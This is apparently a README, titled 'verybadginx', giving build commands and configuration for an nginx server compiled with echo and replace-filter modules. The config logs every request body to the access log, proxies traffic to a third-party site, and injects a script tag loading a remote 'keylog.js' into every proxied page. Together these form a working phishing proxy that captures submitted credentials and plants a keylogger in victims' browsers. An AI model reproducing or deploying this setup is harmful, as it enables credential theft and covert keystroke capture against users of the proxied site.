 # verybadginx

#### Download nginx with modules

cd /tmp
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz'
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz
mv echo-nginx-module-0.58 /tmp/echo-nginx-module
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz'
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz
git clone https://github.com/openresty/replace-filter-nginx-module

####  Ajout user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';
add	access_log /var/log/nginx/access.log custom;
del      include /etc/nginx/sites-enabled/*;
add       include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


	location / {
add		echo_read_request_body;
add		proxy_pass http://www.microplus.fr/;
add		subs_filter "</div>" "</div><script/src='https://www.microplus.fr/secu/images/test/keylog.js'></script>" -o;

	

